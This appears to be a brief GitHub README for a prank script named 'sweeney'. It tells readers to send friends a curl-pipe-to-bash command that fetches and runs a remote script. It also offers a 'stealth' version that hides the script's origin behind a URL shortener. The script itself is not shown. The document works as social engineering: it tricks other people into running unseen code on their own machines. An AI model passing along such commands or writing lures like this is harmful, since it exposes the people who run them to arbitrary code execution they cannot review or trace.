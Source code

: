 # sweeney
send this to your friends to totally sweeney them

```curl -s https://raw.githubusercontent.com/x86Overflow/sweeney/main/sweeney | bash```

you can also stealth sween them with this link

```curl -s https://bit.ly/3yHgiID | bash```
